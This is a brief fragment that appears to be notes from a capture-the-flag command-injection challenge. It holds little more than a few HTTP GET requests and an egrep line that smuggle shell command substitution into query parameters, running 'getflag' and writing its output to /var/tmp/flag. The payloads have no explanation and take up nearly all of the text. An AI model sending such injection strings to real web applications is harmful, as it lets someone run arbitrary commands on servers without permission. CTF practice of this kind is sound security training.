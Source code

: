 GET /?x=$\($_[1]\)&y=echo+\(getflag\)

egrep "^`echo $(getflag) > /var/tmp/flag`" /tmp/xd 2>&1
GET /?x=$\($_[1]\)&y=`echo+$\(getflag\)+>+/var/tmp/flag`

GET /?x=\`\$\_\[1\]\`&y=\`echo+hello>/var/tmp/flag\`